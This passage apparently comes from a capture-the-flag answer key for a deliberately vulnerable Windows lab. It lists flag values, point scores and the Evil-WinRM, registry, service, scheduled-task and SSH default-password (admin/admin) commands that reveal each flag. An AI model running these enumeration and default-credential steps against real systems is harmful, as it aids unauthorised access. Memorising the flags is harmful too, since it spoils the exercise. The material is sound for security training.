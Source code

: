 ```bash
# Output: FLAG{ARTICUNO51674662}
```

---

## Additional System Flags

### FLAG 006: RDP Certificate Registry (20 points)
**Location**: Terminal Server registry key
```bash
# In Evil-WinRM session:
*Evil-WinRM* PS C:\> reg query "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v CertificateComment
# Output: CertificateComment    REG_SZ    FLAG{GENGAR79085546}
```

### FLAG 019: SSH Authorized Keys (30 points)
**Location**: SSH configuration file
```bash
# Connect via SSH
ssh admin@192.168.1.22
# Password: admin

# In Windows SSH session:
C:\Users\admin> type C:\ProgramData\ssh\authorized_keys
# Contains comment: # FLAG{MOLTRES46773297}
C:\Users\admin> exit
```

### FLAG 020: Service Description (15 points)
**Location**: WeakPermService description
```bash
# In Evil-WinRM session:
*Evil-WinRM* PS C:\> sc.exe qdescription WeakPermService
# Output: DESCRIPTION:  Weak Permission Service - FLAG{DRATINI36669962}
```

---

## Registry and Persistence Flags

### FLAG 021: Scheduled Task (25 points)
**Location**: VulnTask scheduled task
```bash
# In Evil-WinRM session:
*Evil-WinRM* PS C:\> schtasks /query /tn VulnTask /fo LIST /v | findstr "Task To Run"
# Shows the command that creates the flag

# Run the task
*Evil-WinRM* PS C:\> schtasks /run /tn VulnTask

# Read the created flag
*Evil-WinRM* PS C:\> Get-Content C:\Public\taskflag.txt
# Output: FLAG{MEOWTH07392744}
```
